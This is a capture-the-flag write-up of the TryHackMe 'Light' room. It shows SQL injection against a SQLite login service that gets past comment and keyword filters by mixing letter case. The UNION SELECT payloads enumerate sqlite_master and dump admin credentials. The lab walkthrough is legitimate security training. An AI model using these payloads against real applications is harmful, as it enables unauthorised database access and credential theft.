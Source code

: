 ```yaml
---
date: "2025-02-05T19:03:58.133Z"
title: "Writeup: TryHackMe Light"
categories:
    - "it"
    - "writeups"
slug: "writeup-tryhackme-light"
---
```



> [!info]
> - [Light](https://tryhackme.com/r/room/lightroom)
> - Difficulty: easy
> - Platform: db
> 
> I am working on a database application called Light! Would you like to try it out?  If so, the application is running on port 1337. You can connect to it using `nc MACHINE_IP 1337`. You can use the username `smokey` in order to get started.



Connect to the machine and try invalid and valid usernames:

```bash
$ nc MACHINE_IP 1337
Welcome to the Light database!
Please enter your username: blah
Username not found.
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

Try a quote to check for injection vulnerabilities:

```
Please enter your username: smokey'
Error: unrecognized token: "'smokey'' LIMIT 30"
```

Good, we're dealing with the database. Let's break out of the error with a comment:

```
Please enter your username: smokey'--
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```

Ok, no comments. We can do it differently:

```
Please enter your username: smokey' or '
Password: vYQ5ngPpw8AdUmL
```

> [!note]
> After finishing the room I learned that you can do `smokey' '` to create a [SQL alias](https://www.w3schools.com/sql/sql_alias.asp) with the same result.


So, there is some filtering here. And it also checks keywords:

```
Please enter your username: ' UNION 
Ahh there is a word in there I don't like :(
```

At this point I guessed that room's name hinted at SQLite database. Using this [SQLite explotaition paper](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf) as a reference, let's enumerate tables and their structures. To escape keyword filtering we can use random letter cases.

```
Please enter your username: -1' UnioN Select group_concat(tbl_name) FRoM sqlite_master WhEre type='table' and tbl_name NOT like 'sqlite_%' or '
Password: usertable,admintable

Please enter your username: -1'  UnIon SeLeCT sql FroM sqlite_master WHerE type!='meta' AND sql NOT NULL AND name ='usertable' or '
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
Please enter your username: -1'  UnIon SeLeCT sql FroM sqlite_master WHerE type!='meta' AND sql NOT NULL AND name ='admintable' or '
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

We're ready to get flags. First flag: admin username.

```
Please enter your username: -1'  UnIon SeLeCT group_concat(username) FroM 'admintable' WHERE id NOT NULL or ' 
Password: REDACTED,flag
```

Second and third flags: admin passwords and flag value.

```
Please enter your username:-1'  UnIon SeLeCT group_concat(password) FroM 'admintable' WHERE id NOT NULL or '
Password: REDACTED,REDACTED

```

Or, to get a full table with all flags at once:

```
Please enter your username: -1'  UnIon SeLeCT GROUP_CONCAT(username || ' ' || password, ', ') AS combined FroM 'admintable' WHERE id NOT NULL or '
Password: REDACTED REDACTED, flag REDACTED
```

